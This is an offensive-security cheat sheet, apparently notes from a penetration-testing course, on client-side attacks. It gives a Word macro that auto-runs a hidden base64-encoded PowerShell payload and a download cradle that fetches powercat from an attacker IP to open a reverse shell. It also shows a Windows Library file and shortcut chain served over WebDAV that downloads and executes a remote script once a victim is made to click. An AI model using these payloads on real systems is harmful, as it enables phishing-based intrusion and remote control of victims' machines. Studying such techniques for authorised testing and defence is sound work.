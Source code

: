 - Canarytokens - Generate a link to gather informations on the target : https://canarytokens.org/nest/

- **Macro words : **
```sh
Sub AutoOpen()
	MyMacro
End Sub

Sub Document_Open()
	MyMacro
End Sub

Sub MyMacro()
	Dim Str As String
	CreateObject("Wscript.Shell").Run Str
End Sub
```
- Encode the command with base64 to avoid issues with special characters : 

```sh
IEX(New-Object
System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c
192.168.119.2 -p 4444 -e powershell
Listing 216 - PowerShell
```


```sh
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."
n = 50
for i in range(0, len(str), n):
print("Str = Str + " + '"' + str[i:i+n] + '"')
Listing 217 - Python script to split a base64 encoded
```

```sh
Sub AutoOpen()
	MyMacro
End Sub

Sub Document_Open()
	MyMacro
End Sub

Sub MyMacro()
	Dim Str As String
	Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
		Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
		Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
	...
		Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
		Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
		Str = Str + "A== "

	CreateObject("Wscript.Shell").Run Str
End Sub
```

- **Abusing Windows Library Files :**

- Create a webdav server : 
```sh
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous -
-root /home/kali/webdav/
```
- Create a file config.Library-ms with this content:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://myip</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

- Create a lnk file and name it `automatic_configuration` : 
```sh
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.0.1.26:8080/shell.ps1')"
```

- Put those lnk in the  webdav directory and deliver the config.Library-ms and force the user to click in the  lnk .